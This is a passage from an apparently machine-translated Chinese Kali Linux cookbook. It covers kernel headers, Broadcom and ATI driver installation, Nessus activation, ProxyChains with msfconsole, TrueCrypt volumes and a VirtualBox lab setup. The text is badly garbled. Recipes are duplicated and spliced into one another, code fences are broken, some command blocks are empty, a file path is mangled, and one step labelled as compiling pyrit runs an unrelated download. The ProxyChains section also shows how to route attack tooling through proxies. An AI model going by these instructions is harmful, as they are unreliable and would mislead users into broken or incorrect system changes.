


2. `Wicd Manager` 将打开可用网络列表：

3. 点击 `Properties` 指定网络详情。

4. 最后，点击 `Connect`。我们准备好了！

28


第 1 章

## 工作原理...

在本配方中，我们完成了无线网络的设置。这个配方从启动网络管理器并连接到路由器开始。

29


Kali Linux 带有多种网络服务，这些服务在各种情况下可能有用，但默认是禁用的。在本配方中，我们将涵盖使用各种方法设置和启动每个服务的步骤。

2

自定义 Kali Linux

在本章中，我们将涵盖：

- 准备内核源
- 安装 ATI 视频驱动
- 安装 nVidia 视频驱动
- 应用更新并配置工具
- 设置 ProxyChains
- 目录加密

## 简介

本章将介绍 Kali 的自定义，以便您充分利用它。我们将涵盖 ATI 和 nVidia 技术的安装以及后续章节所需的额外工具。基于 GPU 的 ATI  显卡允许我们使用它们的图形处理器 (GPU) 进行计算，而不是 CPU。我们将以设置 ProxyChains 和数字信息加密结束本章。
### 准备内核源

有时我们需要编译需要头文件的代码。内核头是 Linux 内核源代码。在本配方中，我们将解释为后续使用准备内核源所需的步骤。



33

 准备工作


## 如何操作...

让我们开始准备内核源的过程：

1. 我们首先通过执行以下命令更新我们的发行版：

```bash
apt-get update
```
2. 接下来，我们再次使用 `apt-get` 准备内核源。执行以下命令：

```bash
apt-get install linux-headers - `uname -r`
```

32


3. 拷贝以下目录及其所有内容：

```bash
cd /usr/src/linux
cp -rf include/generated/* include/linux/
```

4. 我们现在可以编译需要内核头文件的代码了。


## 安装 Broadcom 驱动

在接下来的配方的，我们将执行 Broadcom 官方 Linux 混合无线驱动的安装。使用 Broadcom 无线 USB 适配器可以让我们在让 Kali 运行无线 USB 访问点方面获得最大的成功。对于书中的其余配方，我们将假设已经安装了 Broadcom 无线驱动。

### 准备工作
完成此配方需要连接互联网。

## 如何操作...

1. 打开终端窗口，并从 `http://www.broadcom.com/support/802.11/linux_sta.php` 下载适当的 Broadcom 驱动：
```bash
cd /tmp/
wget http://www.broadcom.com/docs/linux_sta/hybrid-portsrc_x86_64-v5_100_82_112.tar.gz
```


自定义 Kali Linux
2. 使用以下脚本提取下载的驱动：
mkdir broadcom
tar xvfz hybrid-portsrc_x86_64-v5_100_82_112.tar.gz -C /tmp/ broadcom
```
3. 修改 `wl_cfg80211.c` 文件，因为 `5.100.82.112` 版本中有一个 bug，导致无法在内核版本 `2.6.39` 下编译代码：
```bash
vim /tmp/broadcom/src/wl/sys/wl_cfg80211.c
```
查看第 1814 行的以下代码：
```c
#if LINUX_VERSION_CODE > KERNEL_VERSION(2, 6, 39)
将其替换为：
```c
#if LINUX_VERSION_CODE >= KERNEL_VERSION(2, 6, 39)
```
保存更改。

4. 编译代码：
```bash
make clean
make
```
5. 更新依赖项：
```bash
depmod -a
```
6. 通过以下命令查找已加载的模块：
```bash
lsmod | grep b43\|ssb\|bcma
```
7. 执行以下命令删除找到的模块：
rmmod <module>b43
```
其中 `<module>` 可能是 `b43`、`ssb` 或 `bcma`。

8. 将模块列黑以防止它们在系统启动时加载：
```bash
echo "blacklist <module>" >> /etc/modprobe.d/blacklist.conf
```
其中 `<module>` 可能是 `b43`、`ssb`、`bcma` 或 `wl`。

```bash
modprobe wl
```


## 安装并配置 ATI 显卡驱动

在这个配方中，我们将详细介绍 ATI 显卡驱动的安装和配置，随后是 AMD 加速并行处理 (APP) SDK、`OpenCL` 和 `CAL++`。利用 ATI Stream 技术，我们可以运行计算密集型任务（通常在 CPU 上运行），这些任务可以运行得更快、更高效。有关 ATI Stream 技术的更多详细信息，请访问 `www.amd.com/stream`。

### 准备工作

## 如何操作...
让我们开始安装和配置 ATI 驱动：

1. 下载适用于你系统所需的 ATI 显示驱动：
```bash
cd /tmp/
wget http://www2.ati.com/drivers/linux/amd-driver-installer-12-1-x86.x86_64.run
```
我们也可以从以下网站下载显示驱动：`http://support.amd.com/us/gpudownload/Pages/index.aspx`。

自定义 Kali Linux
2. 输入以下命令开始安装：
```bash
sh amd-driver-installer-12-1-x86.x86_64.run
```
3. 设置程序完成后，重启系统以使更改生效并防止系统不稳定。
4. 安装后续步骤所需的依赖项：
```bash
apt-get install libroot-python-dev libboost-python-dev libboost1.40-all-dev cmake
5. 根据你的 CPU 架构下载并解压 AMD APP SDK：
```bash
wget http://developer.amd.com/Downloads/AMD-APP-SDK-v2.6-lnx64.tgz
mkdir AMD-APP-SDK-v2.6-lnx64
tar zxvf AMD-APP-SDK-v2.6-lnx64.tgz -C /tmp/AMD-APP-SDK-v2.6-lnx64
cd AMD-APP-SDK-v2.6-lnx64
```
6. 执行以下命令安装 APP SDK：
```bash
sh Install-AMD-APP.sh
7. 在 `.bashrc` 文件中设置 ATI Stream 路径：
```bash
echo export ATISTREAM_ROOT=/opt/AMD/ >> ~/.bashrc
source ~/.bashrc
```


8. 下载你系统所需的 ATI 显示驱动：
```bash
cd /tmp/
```
我们也可以从以下网站下载显示驱动：`http://support.amd.com/us/gpudownload/Pages/index.aspx`。
9. 执行以下命令编译 `pyrit`：
```bash
cd /tmp/
wget http://www.amd.com/support/AMD-GPU-SDK-1.1.tar.gz
```
10. 修改 `wl_cfg80211.c` 文件，因为 `5.100.82.112` 版本中有一个 bug，导致无法在内核版本 `2.6.39` 下编译代码：
```bash
vim /tmp/broadcom/src/wl/sys/wl_cfg80211.c
查看第 1814 行的以下代码：
```c
#if LINUX_VERSION_CODE > KERNEL_VERSION(2, 6, 39)
```
将其替换为：
```c
#if LINUX_VERSION_CODE >= KERNEL_VERSION(2, 6, 39)
```
保存更改。

```bash
make clean
make
make install
```
12. 更新依赖项：
```bash
depmod -a
```
13. 通过以下命令查找已加载的模块：
lsmod | grep b43\|ssb\|bcma
```
14. 执行以下命令删除找到的模块：
```bash
rmmod <module>b43
```
其中 `<module>` 可能是 `b43`、`ssb` 或 `bcma`。

15. 将模块列黑以防止它们在系统启动时加载：
```bash
```
其中 `<module>` 可能是 `b43`、`ssb`、`bcma` 或 `wl`。

16. 最后，将新模块添加到 Linux 内核中使其启动过程的一部分：
```bash
modprobe wl
```


## 安装并配置 ATI 显卡驱动
在这个配方中，我们将详细介绍 ATI 显卡驱动的安装和配置，随后是 AMD 加速并行处理 (APP) SDK、`OpenCL` 和 `CAL++`。利用 ATI Stream 技术，我们可以运行计算密集型任务（通常在 CPU 上运行），这些任务可以运行得更快、更高效。有关 ATI Stream 技术的更多详细信息，请访问 `www.amd.com/stream`。

### 准备工作
完成此配方需要连接互联网。在开始此任务之前，还需要准备内核头，这在本章开头的“准备内核头”配方中进行了解释。

## 如何操作...
让我们开始安装和配置 ATI 驱动：

1. 下载适用于你系统所需的 ATI 显示驱动：
```bash
wget http://www2.ati.com/drivers/linux/amd-driver-installer-12-1-x86.x86_64.run
```
我们也可以从以下网站下载显示驱动：`http://support.amd.com/us/gpudownload/Pages/index.aspx`。


2. 输入以下命令开始安装：
```bash
sh amd-driver-installer-12-1-x86.x86_64.run
```
3. 设置程序完成后，重启系统以使更改生效并防止系统不稳定。
```bash
apt-get install libroot-python-dev libboost-python-dev libboost1.40-all-dev cmake
```
5. 根据你的 CPU 架构下载并解压 AMD APP SDK：
```bash
wget http://developer.amd.com/Downloads/AMD-APP-SDK-v2.6-lnx64.tgz
mkdir AMD-APP-SDK-v2.6-lnx64
tar zxvf AMD-APP-SDK-v2.6-lnx64.tgz -C /tmp/AMD-APP-SDK-v2.6-lnx64
cd AMD-APP-SDK-v2.6-lnx64
```
```bash
sh Install-AMD-APP.sh
```
7. 在 `.bashrc` 文件中设置 ATI Stream 路径：
```bash
echo export ATISTREAM_ROOT=/opt/AMD/ >> ~/.bashrc
source ~/.bashrc
```


```bash
cd /tmp/
wget http://www.amd.com/support/AMD-GPU-SDK-1.1.tar.gz
```
9. 下载你系统所需的 ATI 显示驱动：
```bash
cd /tmp/
wget http://www2.ati.com/drivers/linux/amd-driver-installer-12-1-x86.x86_64.run
```
我们也可以从以下网站下载显示驱动：`http://support.amd.com/us/gpudownload/Pages/index.aspx`。
```bash
vim /tmp/broadcomcom/////wl/wl_cfg80111.c
```
查看第 1814 行的以下代码：
```c
#if LINUX_VERSION_CODE > KERNEL_VERSION(2, 6, 39)
```
将其替换为：
```c
#if LINUX_VERSION_CODE >= KERNEL_VERSION(2, 6, 39)
保存更改。

11. 编译代码：
```bash
make clean
make
make install
```
12. 更新依赖项：
```bash
```
13. 通过以下命令查找已加载的模块：
```bash
lsmod | grep b43\|ssb\|bcma
```
14. 执行以下命令删除找到的模块：
```bash
rmmod <module>b43
```
其中 `<module>` 可能是 `b43`、`ssb` 或 `bcma`。
15. 将模块列黑以防止它们在系统启动时加载：
```bash
echo "blacklist <module>" >> /etc/modprobe.d/blacklist.conf
```
其中 `<module>` 可能是 `b43`、`ssb`、`bcma` 或 `wl`。

16. 最后，将新模块添加到 Linux 内核中使其启动过程的一部分：
```bash
modprobe wl
```


在本教程中，我们将介绍更新 Kali 以及配置一些额外工具的过程，这些工具在后续章节和教程中非常有用。由于 Kali 软件包在发布版本之间不断更新，你很快会发现可用的工具比最初从 DVD-ROM 中下载的要新。我们将从更新安装开始，获取 Nessus 的激活码，并以安装 Squid 结束。

## 如何操作...

让我们开始更新并配置额外的安全工具的过程：


```bash
apt-get update
```

2. 升级现有的软件包：

```bash
apt-get upgrade
```
3. 升级到最新版本（如果可用）：

```bash
apt-get dist-upgrade
```

40


4. 通过在 `http://www.nessus.org/products/nessus/nessus-plugins/obtain-an-activation-code` 注册获取 Nessus 的激活码。

5. 执行以下命令激活 Nessus：

```bash
/opt/nessus/bin/nessus-fetch --register A60F-XXXX-XXXX-XXXX-0006
```

其中 `A60F-XXXX-XXXX-XXXX-0006` 应该是你的激活码。
6. 为 Nessus Web 界面创建一个用户账户：

```bash
/opt/nessus/sbin/nessus-adduser
```

7. 启动 Nessus 服务器，只需调用以下命令：

```bash
/etc/init.d/nessusd start

8. 安装 Squid：

```bash
apt-get install squid3
```

9. 防止 Squid 在启动机时自动启动：

```bash
```

在 `apt-get update` 之后，我们可以使用以下命令在存储库中查找特定软件包：

```bash
apt-cache search <keyword>
```

其中 `<keyword>` 可以是软件包或正则表达式。


通过强制让应用程序通过用户定义的代理列表连接，从而断开接收者和发送者之间的直接连接，这是本教程中要解释的任务。

41



## 定制 Kali Linux

如何操作...
1. 打开 ProxyChains 配置文件：

```bash
vim /etc/proxychains.conf
```

2. 取消我们想要使用的链类型的注释；在此情况下，使用 `dynamic_chain`：

3. 向列表添加一些代理服务器。




## 第 2 章

4. 通过我们的链式代理解析目标主机：

```bash
proxyresolv www.targethost.com
```
5. 现在我们可以通过想要使用的应用程序运行 ProxyChains；例如，`msfconsole`：

```bash
proxychains msfconsole
```

## 目录加密

本章的最后一个教程将关于信息隐私。我们将使用 TrueCrypt 通过加密密钥从公众视野中隐藏重要的秘密数字信息。




## 定制 Kali Linux

如何操作...

1. 导航到 `Applications Menu|Kali|Forensics|Digital Anti Forensics|install truecrypt` 安装 TrueCrypt。点击 `Install TrueCrypt` 并按照屏幕上的指示操作。

2. 从 `Applications Menu|Kali Linux|Forensics|Digital Anti Forensics|truecrypt` 启动 TrueCrypt，你将看到一个与截图类似的窗口：
44



## 第 2 章

3. 点击 `Create Volume` 开始启动 `TrueCrypt Volume Creation Wizard`。

4. 保留默认选项并点击 `Next`。


6. 点击 `Select File…` 按钮并为新的 TrueCrypt 卷指定名称和位置。完成后点击 `Save`。

7. 点击 `Next` 按钮并选择我们使用的加密和哈希算法。

8. 在下一个屏幕中，我们将指定容器所需的空间大小。

9. 现在我们需要输入卷的密码。点击 `Next`。

10. 选择文件系统类型。
11. 根据需求选择 `Cross-Platform Support`（跨平台支持）。

12. 在下一个屏幕中，向导要求我们在窗口内移动鼠标以增加加密密钥的加密强度。完成后，点击 `Format` 按钮。

13. 格式化将开始，并将在创建 TrueCrypt 卷后结束。按 `OK` 并 `Exit`。

14. 我们现在回到了 TrueCrypt 窗口。

15. 要解密我们的卷，从列表中选择一个槽，点击 `Select File…` 并打开我们创建的卷。




## 定制 Kali Linux

16. 点击 `Mount` 并输入我们的密码；完成后点击 `OK`：

17. 现在我们可以通过双击它来访问卷。

工作原理...
在本教程中，我们设置了 TrueCrypt，创建了一个卷并挂载了它。

46

3

## 高级实验

在本章中，我们将涵盖：
- 熟悉 VirtualBox
- 下载 Linux
- 攻击 WordPress

引言

现在你已经学习了这些工具，我们将继续着研究一些场景。在当前的技术下，大多数企业使用平台服务 (PAAS)、云服务器和防火墙/路由器。在本章中，我们将严重依赖 VirtualBox 及其配置。

准备工作

完成本模块需要连接 Internet 或内部网络。
如何操作...

让我们从打开 VirtualBox 开始该过程：

1. 启动 VirtualBox 并点击 `New` 启动虚拟机向导：

2. 点击 `Next` 按钮，输入虚拟机的名称并选择 `OSType` 以及 `Version`。在本章中，我们将使用 Linux、Solaris 或 Windows 操作系统。选择相应的操作系统。点击 `Next` 继续继续：

48


## 第 3 章

3. 选择分配给虚拟机的基础内存（RAM）量。我们将使用默认值。点击 `Next`。

4. 为虚拟机创建一个新的虚拟硬盘。点击 `Next` 按钮：

49


## 高级实验

5. 将打开一个新的向导窗口。保持默认的 VDI 文件类型，因为我们没有计划其他虚拟化软件。

6. 我们将保持虚拟磁盘存储详细信息的默认选项。点击 `Next` 继续。

7. 设置虚拟磁盘文件的位置和大小：

8. 检查设置是否正确并点击 `Create` 按钮开始创建虚拟磁盘文件。


 点击 `Create` 完成：

50


